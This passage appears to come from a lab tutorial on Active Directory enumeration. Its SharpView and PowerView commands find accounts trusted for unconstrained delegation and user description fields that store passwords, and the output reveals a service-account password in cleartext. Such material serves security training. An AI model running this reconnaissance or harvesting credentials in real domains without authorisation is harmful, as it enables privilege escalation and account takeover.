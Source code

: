 ```powershell-session
PS C:\htb> .\SharpView.exe Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"

[Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
[Get-DomainUser] Using additional LDAP filter: (userAccountControl:1.2.840.113556.1.4.803:=524288)
[Get-DomainUser] filter string: (&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))
objectsid                      : {S-1-5-21-2974783224-3764228556-2640795941-1110}
samaccounttype                 : USER_OBJECT
objectguid                     : f71224a5-baa7-4aec-bfe9-56778184dc63
useraccountcontrol             : NORMAL_ACCOUNT, TRUSTED_FOR_DELEGATION
accountexpires                 : 12/31/1600 7:00:00 PM
lastlogon                      : 12/31/1600 7:00:00 PM
pwdlastset                     : 7/27/2020 2:46:20 PM
lastlogoff                     : 12/31/1600 7:00:00 PM
badPasswordTime                : 12/31/1600 7:00:00 PM
name                           : sqldev
distinguishedname              : CN=sqldev,OU=Service Accounts,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL
whencreated                    : 7/27/2020 6:46:20 PM
whenchanged                    : 8/14/2020 1:30:37 PM
samaccountname                 : sqldev
memberof                       : {CN=Protected Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL}
cn                             : {sqldev}
objectclass                    : {top, person, organizationalPerson, user}
ServicePrincipalName           : CIFS/roguecomputer.inlanefreight.local
logoncount                     : 0
codepage                       : 0
objectcategory                 : CN=Person,CN=Schema,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL
dscorepropagationdata          : {7/30/2020 3:09:16 AM, 7/30/2020 3:09:16 AM, 7/28/2020 1:45:00 AM, 7/28/2020 1:34:13 AM
, 7/14/1601 10:36:49 PM}
usnchanged                     : 110783
instancetype                   : 4
badpwdcount                    : 0
usncreated                     : 14648
countrycode                    : 0
primarygroupid                 : 513
```

We can also check for any domain users with sensitive data such as a password stored in the description field.

Enumerating AD Users

```powershell-session
PS C:\htb> Get-DomainUser -Properties samaccountname,description | Where {$_.description -ne $null}

samaccountname description
-------------- -----------
Administrator  Built-in account for administering the computer/domain
Guest          Built-in account for guest access to the computer/domain
DefaultAccount A user account managed by the system.
krbtgt         Key Distribution Center Service Account
svc-sccm       **Do not change password** 03/04/2015 N3ssu$_svc2014!
```
